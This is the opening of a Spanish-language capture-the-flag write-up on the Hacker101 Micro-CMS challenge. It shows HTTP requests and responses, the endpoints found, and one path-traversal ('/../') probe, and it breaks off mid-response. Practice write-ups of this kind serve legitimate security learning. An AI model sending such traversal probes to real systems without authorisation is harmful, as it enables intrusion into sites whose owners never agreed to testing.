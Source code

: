 GET a la URL
```HTTP
GET / HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 272
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:37:02 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>Micro-CMS</title>
    </head>
    <body>
        <ul>
<li><a href="page/1">Testing</a></li>
<li><a href="page/2">Markdown Test</a></li>
        </ul>
        <a href="page/create">Create a new page</a>
    </body>
</html>
```

**Endpoints observados**
- /page/id
- /page/create

**Intento de LFI en URL base**
```bash
http -v GET "https://c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com/../"
```

**Resultado**
```HTTP
GET / HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 593
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 17:28:18 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>Micro-CMS</title>
    </head>
    <body>
        <ul>
```